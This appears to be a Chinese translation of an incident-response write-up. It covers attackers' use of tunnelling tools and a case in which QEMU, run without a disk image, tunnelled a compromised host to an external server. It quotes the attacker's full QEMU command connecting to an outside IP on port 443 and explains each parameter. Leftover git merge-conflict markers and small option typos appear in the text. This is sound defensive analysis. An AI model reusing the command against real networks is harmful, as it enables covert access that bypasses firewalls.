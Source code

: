 # 前言

网络攻击者在采取各种攻击步骤时往往会优先考虑合法工具，因为这些工具可以帮助他们逃避检测系统，同时将恶意软件的开发成本降至最低。网络扫描、捕获进程内存转储、窃取数据、远程文件执行，甚至加密驱动器，所有这些都可以使用可信软件来完成。为了在失陷的基础设施中维持权限并发起攻击，攻击者可以使用之前安装的恶意软件或通过公司的 RDP 服务器或企业 VPN 与员工一起连接到网络（为此，攻击者必须拥有适当权限的帐户）。连接到受攻击组织内部网络的另一种方法是使用实用工具在公司系统和失陷的服务器之间建立网络隧道或端口转发，这使得攻击者能够绕过 NAT 和防火墙来访问内部系统。本文想在这里讨论的正是这一类软件。

# 工具统计

目前有很多在两个系统之间建立网络隧道的实用工具。其中一些直连，而另一些则使用代理，隐藏攻击者服务器的 IP 地址。以下是我们在过去三年中网络应急响应时遇到的工具。

-   Stowaway
-   ligolo
-   3proxy
-   dog-tunnel
-   chisel
-   FRP
-   ngrok
-   gs-netcat
-   plink
-   iox
-   nps  
    最常用的是 ngrok 和 FRP。此类程序占攻击总数的 10%。  
    #QEMU 作为隧道工具  
    几个月前，在调查一家大公司的一起安全事件时，我们在其中一个系统内发现了不常见的恶意活动。我们对这些工件进行了分析，结果发现攻击者部署并启动了以下程序
-   ip 扫描器
-   密码、哈希值和 Kerberos 票证提取器以及 Active Directory 攻击工具
-   QEMU 硬件模拟器  
    前两个不用说了，但 QEMU 有一些问题。恶意攻击者使用 QEMU 虚拟器有什么用？  
    我们能够从受感染机器的内存中找到 QEMU 执行命令行。我们发现它是在没有 LiveCD 或磁盘映像的情况下启动的，这对于 QEMU 来说非常不寻常。这些是攻击者用来运行 QEMU 的参数：
    
<<<<<<< HEAD
    ```plain
=======
    ```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
    qemu-system-i386.exe -m 1M -netdev user,id=lan,restrict=off -netdev socket,id=sock,connect=<IP>:443 -netdev hubport,id=port-lan,hubid=0,netdev=lan -netdev hubport,id=port-sock,hubid=0,netdev=sock -nographic
    ```
    
    其中 <ip> 是外部 IP 地址。让我们仔细看看这些参数。</ip>
-   \-m 1M：指定分配给虚拟机的 RAM 大小。在本例中为 1 MB，对于大多数操作系统来说完全不够。
<<<<<<< HEAD
-   \-netdev user,id=lan,restrict=off：创建一个名为 lan、类型为 user 的虚拟网络接口，该接口允许虚拟机通过主机网络堆栈与外界通信。 limit=off 选项删除对入站和出站连接的限制。
=======
-   \-netdev user,id=lan,restrict=off：创建一个名为 lan、类型为 user 的虚拟网络接口，该接口允许虚拟机通过主机网络堆栈与外界通信。limit=off 选项删除对入站和出站连接的限制。
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
-   \-netdev socket,id=sock,connect=<ip>:443：创建名为 sock 的套接字类型网络接口，该接口提供到指定 IP 地址和端口 443 的远程服务器的连接。</ip>
-   \-netdev hubport,id=port-lan,hubid=0,netdev=lan：向 hubid=0 的虚拟集线器添加端口，该端口链接到虚拟网络接口 lan。
-   \-netdev hubport,id=port-sock,hubid=0,netdev=sock：与上面类似，这会向链接到虚拟网络接口 sock 的虚拟集线器再添加一个端口。
-   \-ngraphic：以非 GUI 模式启动 QEMU，并带有控制台输出。  
    参数中的 IP 地址立即引起了我们的注意：它是外部的，与受攻击的公司完全无关，因此我们查阅了 QEMU 文档。我们发现 QEMU 支持虚拟机之间的连接：-netdev 选项创建可以连接到虚拟机的网络设备（后端）。众多网络设备中的每一个都由其类型定义并支持额外的选项。以下是所使用的 -netdev 值的描述。  
    这是将虚拟机连接到网络的最简单方法。流量通过主机网络堆栈，虚拟机连接到网络，就像主机上的常规应用程序一样。
    